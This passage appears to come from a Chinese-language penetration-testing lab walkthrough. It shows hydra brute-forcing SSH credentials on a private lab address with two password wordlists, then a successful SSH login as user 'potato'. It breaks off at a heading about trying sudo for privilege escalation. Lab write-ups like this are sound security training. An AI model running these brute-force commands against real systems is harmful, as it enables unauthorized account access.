 ```
hydra -L user.txt -P passwd.txt ssh://192.168.147.134:7120
```

![image-20250313112253577](assets/image-20250313112253577.png)



#### 更换密码字典

```
hydra -L user.txt -P /usr/share/john/password.lst ssh://192.168.147.134:7120
```

![image-20250313112401510](assets/image-20250313112401510.png)





#### ssh登录

```
ssh potato@192.168.147.134 -p 7120
```

![image-20250313112422307](assets/image-20250313112422307.png)



成功



### 提权

#### 尝试sudo提取
